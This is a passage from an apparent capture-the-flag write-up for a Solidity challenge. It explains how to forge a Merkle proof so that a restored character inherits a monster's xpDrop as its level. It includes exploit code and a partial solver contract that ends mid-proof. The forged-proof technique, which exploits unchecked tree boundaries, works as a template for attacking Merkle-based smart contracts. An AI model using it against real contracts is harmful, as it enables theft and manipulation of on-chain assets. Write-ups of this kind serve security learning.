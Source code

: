 ```solidity
);

// Verify our construction
require(
    keccak256(
        abi.encodePacked(
            fakeProof[0], fakeCharacterMerkle
        )
    ) == monster0.merkleizeMonster()
);

// Build rest of the proof path
fakeProof[1] = monster1.merkleizeMonster();
fakeProof[2] = keccak256(abi.encodePacked(monster0.merkleizeMonster(), fakeProof[1]));
// ... continue building proof ...
```

4. Execute the restore and kill Jenkins:
```solidity
world.restoreCharacter(fakeCharacter, fakeProof);
vm.roll(block.number + 1);
world.fightMonster(513, 0);
```

### Why It Works

The exploit succeeds because:
1. Character ID 513 gives us path 1000000001 in binary
2. This path lets us reach into the monster tree portion
3. The right half of Jenkins' merkle node aligns with Character fields
4. The proof validation doesn't check tree boundaries
5. The restored character inherits Jenkins' xpDrop as its level

This gives us a level 31337 character, well above Jenkins' level 60, ensuring victory.

## Complete Solution

```solidity
contract Solve is CTFSolver {
    using BackupLogic for IWorldOfMemecraft.Character;
    using BackupLogic for IWorldOfMemecraft.Monster;

    function solve(address challengeAddress, address player) internal override {
        Challenge challenge = Challenge(challengeAddress);
        WorldOfMemecraft world = challenge.WORLD_OF_MEMECRAFT();
        
        // Create initial character and backup
        world.createCharacter();
        vm.roll(block.number + 1);
        world.createBackup();
        
        // Get initial merkle proof components
        IWorldOfMemecraft.Character memory character = world.getCharacter(0);
        bytes32 characterMerkle = character.merkleizeCharacter();
        
        // Construct proof for character restoration
        bytes32[] memory proof = new bytes32[](9);
        proof[0] = characterMerkle;
        for(uint i = 1; i < 7; i++) {
            proof[i] = keccak256(abi.encodePacked(proof[i-1], proof[i-1]));
        }
        bytes32 charactersMerkle = keccak256(abi.encodePacked(proof[6], proof[6]));
        proof[7] = bytes32(uint256(32669197447154008537373447036772906393060124346300159938840376223897295441772));
```